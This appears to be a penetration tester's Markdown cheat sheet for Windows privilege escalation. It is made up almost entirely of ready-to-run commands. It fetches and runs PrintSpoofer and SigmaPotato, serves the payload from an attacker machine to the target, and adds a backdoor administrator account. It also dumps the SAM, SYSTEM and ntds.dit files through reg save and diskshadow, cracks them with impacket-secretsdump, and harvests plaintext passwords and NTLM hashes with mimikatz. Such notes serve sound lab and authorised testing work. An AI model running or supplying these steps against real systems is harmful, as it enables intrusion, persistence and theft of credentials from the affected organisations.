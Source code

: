 # Enumerate Privileges of current user
```batch
whoami /priv
```
# Privileges known to lead to Privilege Escalation
* SeImpersonatePrivilege
* SeBackupPrivilege
* SeAssignPrimaryToken
* SeLoadDriver
* SeDebug

In most configurations, IIS (Windows Webserver) will run as LocalService, LocalSystem, NetworkService, or ApplicationPoolIdentity, which all have SeImpersonatePrivilege assigned.

This also applies to other Windows services.
# SeImpersonatePrivilege
## PrintSpoofer
Objectively the best way to privesc this imo.
```batch
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```
```batch
.\PrintSpoofer64.exe -i -c cmd
```
## Potatoes
```bash
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```
```bash
python -m http.server 80
```
```powershell
iwr -uri http://$(IP_ADDRESS)/SigmaPotato.exe -OutFile SigmaPotato.exe
```
```powershell
.\SigmaPotato "net user dave4 lab /add"
```
```powershell
.\SigmaPotato "net localgroup Administrators dave4 /add"
```
# SeBackupPrivilege
Domain Controllers won't store passwords in SAM but NTDS.dit - however old passwords could still be there. Always run BOTH on DC.
## Local Windows
```
mkdir C:\temp
```
```
reg save HKLM\SAM SAM
```
```
reg save HKLM\SYSTEM SYSTEM
```
Then transfer the sam and system files to kali (i.e. download on winrm, shared folder on xfreerdp, etc).

Then run the following to dump hashes:
```bash
impacket-secretsdump local -sam SAM -system SYSTEM
```
## Domain Controller
Save this as diskshadow.txt:
```
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```
```
unix2dos diskshadow.txt
```
Upload the created file to the target.

On the remote target, run the following:
```
mkdir C:\temp
```
```
diskshadow /s diskshadow.txt
```
```
robocopy /b E:\Windows\ntds . ntds.dit
```
Transfer ntds.dit from the target to the attacker machine.

Then run the following to dump hashes:
```
impacket-secretsdump local -ntds ntds.dit -system system
```
# Mimikatz
If a user has either of the following privileges, mimikatz can be used:
* SeImpersonatePrivilege
* SeDebugPrivilege

Once mimikatz is transferred to the target windows device, run it as administrator via powershell.

Enable SeDebugPrivilege (require for dumping passwords):
```
privilege::debug
```
Elevate privileges to SYSTEM (also required):
```
token::elevate
```
Dump plaintext and hashed passwords from ALL sources:
```
sekurlsa::logonpasswords
```
Dump only NTLM hashes from SAM database:
```
lsadump::sam
```
# Meterpreter
```
getsystem
```
